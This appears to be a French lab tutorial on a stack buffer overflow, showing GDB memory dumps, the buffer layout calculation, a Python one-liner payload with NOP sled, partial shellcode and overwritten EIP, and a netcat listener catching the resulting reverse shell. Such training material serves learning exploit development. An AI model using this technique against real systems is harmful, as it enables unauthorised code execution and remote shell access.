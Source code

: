 # Identification of the Return Address

***

### <mark style="color:red;">🔹 Identification de l’adresse de retour</mark>

Après avoir vérifié que nous contrôlons toujours l’EIP avec notre shellcode, il nous faut maintenant une **adresse mémoire** où se trouvent nos **NOPs** pour dire à l’EIP de sauter dessus.\
Cette adresse mémoire **ne doit pas contenir de bad characters** que nous avons identifiés précédemment.

***

#### <mark style="color:green;">🔹 GDB – NOPs</mark>

```bash
(gdb) x/2000xb $esp+1400
```

```
<SNIP>
0xffffd5ec:  0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5f4:  0x55 0x55 0x55 0x55 0x55 0x55 0x90 0x90
                                 # Fin des "\x55" ---->|  |---> NOPs
0xffffd5fc:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd604:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd60c:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd614:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd61c:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd624:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd62c:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd634:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd63c:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd644:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd64c:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd654:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd65c:  0x90 0x90 0xda 0xca 0xba 0xe4 0x11 0xd4
                             # |---> Shellcode
<SNIP>
```

Ici, nous devons maintenant choisir une adresse vers laquelle pointer l’EIP, et qui va exécuter les instructions **octet par octet à partir de cette adresse**.\
Dans cet exemple, nous choisissons **l’adresse `0xffffd64c`**.

<figure><img src="../../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

***

#### <mark style="color:green;">🔹 Schéma du buffer (visualisation)</mark>

On a :

* `841` octets de remplissage (`\x55`)
* `100` octets de NOPs (`\x90`)
* `95` octets de shellcode
* `4` octets pour écraser l’EIP

Ainsi, le flux d’exécution saute dans la zone des NOPs, puis glisse jusqu’au shellcode.

***

#### <mark style="color:green;">🔹 Notes (calculs)</mark>

```
   Buffer   = "\x55" * (1040 - 100 - 95 - 4) = 841
   NOPs     = "\x90" * 100
   Shellcode= "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
   EIP      = "\x4c\xd6\xff\xff"
```

⚠️ Remarque : l’adresse `0xffffd64c` est écrite **à l’envers** dans le buffer (`little endian`) → `\x4c\xd6\xff\xff`.

***

#### <mark style="color:green;">🔹 Mise en place du listener Netcat</mark>

Comme notre shellcode ouvre un **reverse shell**, nous lançons `netcat` en écoute sur le port `31337` :

```bash
student@nix-bow:$ nc -nlvp 31337
```

```
Listening on [0.0.0.0] (family 0, port 31337)
```

***

#### <mark style="color:green;">🔹 Exécution de l’exploit</mark>

On exécute à nouveau notre exploit avec le shellcode et l’adresse corrigée :

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

***

#### <mark style="color:green;">🔹 Résultat côté Netcat</mark>

```
Listening on [0.0.0.0] (family 0, port 31337)
Connection from 127.0.0.1 33504 received!
```

On teste si le shell est bien actif avec la commande `id` :

```
id
uid=1000(student) gid=1000(student) groups=1000(student),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```

✅ Nous voyons que nous avons bien une connexion depuis l’IP locale et que nous sommes dans un shell.

***

👉 Donc, en résumé :

1. On choisit une adresse **dans les NOPs**.
2. On remplace l’EIP par cette adresse (en little endian).
3. On écoute avec `netcat`.
4. On lance l’exploit → on obtient un shell.

***
